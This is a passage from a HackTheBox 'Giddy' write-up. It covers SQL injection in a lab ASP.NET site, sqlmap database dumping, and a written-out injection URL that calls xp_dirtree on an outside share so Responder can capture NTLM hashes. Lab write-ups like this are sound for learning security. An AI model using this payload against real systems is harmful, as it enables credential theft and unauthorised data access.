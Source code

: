 From the response that we have intercepted using Burp Suite, we can see that the error originates from C:\Users\jnogueira\Downloads\owasp10\1-owasp-top10-m1-injection-exercise-files\before\1-Injection\Search.aspx which seems like some sort of filtering against OWASP's TOP 10 Injections vulnerabilities.

![Request Filtering](https://github.com/joelczk/writeups/blob/main/HTB/Images/Giddy/request_filtering.png)

We also found another endpoint that is vulnerable, http://giddy.htb/mvc/Product.aspx?ProductSubCategoryId=1 that is vulnerable to SQL Injection as well. 

![SQL Injection in product.aspx](https://github.com/joelczk/writeups/blob/main/HTB/Images/Giddy/product_aspx_sql_injection.png)

The same exploitation could be used to extract the NTLM hashes by visiting http://giddy.htb/mvc/Product.aspx?ProductSubCategoryId=8;use%20master;EXEC%20xp_dirtree%20%22\\10.10.16.6\share%22;--%20-. The hashes can then be captured by the responder that is listening on our local machine. 

Similiar to the Search.aspx endpoint, we are unable to extract the databases manually due to filtering of SQL Injection payloads. However, we can still use sqlmap to dump out the databases.

If we were to look through the dumped databases, we realized that there is no information that can help in furthur exploitation of this machine. One thing that might be of concern is that we were able to extract out the credit card database which contains a lot of credit card information such as the credit card id, credit card number etc which might be a real concern if this was a production site in the real world. 
